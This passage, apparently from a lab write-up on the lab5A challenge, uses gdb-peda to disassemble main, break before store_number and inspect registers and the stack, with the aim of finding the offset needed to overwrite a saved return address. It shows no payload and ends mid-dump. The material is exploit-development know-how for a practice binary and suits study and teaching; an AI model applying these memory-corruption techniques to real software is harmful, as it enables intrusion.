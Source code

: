 
Here, we can see that the return address (`0x804912e`) is located on the stack at `0xbffff4dc`. 

Now, to know at which offset we need to write to overwrite this value we need to know the starting address of the `data[]` array. As it is passed as an argument to *store_number()* in *main()*, we can place a breakpoint here and check the stack.

```nasm
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048fb4 <+0>:  push   ebp
   0x08048fb5 <+1>:  mov    ebp,esp

...[snip]...

   0x08049126 <+370>:   mov    DWORD PTR [esp],eax
   0x08049129 <+373>:   call   0x8048eae <store_number>
   0x0804912e <+378>:   mov    DWORD PTR [esp+0x24],eax

...[snip]...

   0x0804920a <+598>:   pop    ebp
   0x0804920b <+599>:   ret
End of assembler dump.
gdb-peda$ break *main+373
Breakpoint 1 at 0x8049129
gdb-peda$ run
Starting program: /levels/lab05/lab5A
----------------------------------------------------
  Welcome to doom's crappy number storage service!
          Version 2.0 - With more security!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   doom has reserved some storage for himself :>
----------------------------------------------------

Input command: store
[----------------------------------registers-----------------------------------]
EAX: 0xbffff508 --> 0x0
EBX: 0xbffff508 --> 0x0
ECX: 0x80bfa4c --> 0x65720065 ('e')
EDX: 0x72 ('r')
ESI: 0x0
EDI: 0xbffff698 ("store")
EBP: 0xbffff6c8 --> 0x8049990 (<__libc_csu_fini>:  push   ebx)
ESP: 0xbffff4e0 --> 0xbffff508 --> 0x0
EIP: 0x8049129 (<main+373>:   call   0x8048eae <store_number>)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8049120 <main+364>:   jne    0x8049134 <main+384>
   0x8049122 <main+366>:   lea    eax,[esp+0x28]
   0x8049126 <main+370>:   mov    DWORD PTR [esp],eax
=> 0x8049129 <main+373>:   call   0x8048eae <store_number>
   0x804912e <main+378>:   mov    DWORD PTR [esp+0x24],eax
   0x8049132 <main+382>:   jmp    0x80491a4 <main+496>
   0x8049134 <main+384>:   mov    DWORD PTR [esp+0x8],0x4
   0x804913c <main+392>:   mov    DWORD PTR [esp+0x4],0x80bfa4e
Guessed arguments:
arg[0]: 0xbffff508 --> 0x0
[------------------------------------stack-------------------------------------]
0000| 0xbffff4e0 --> 0xbffff508 --> 0x0
```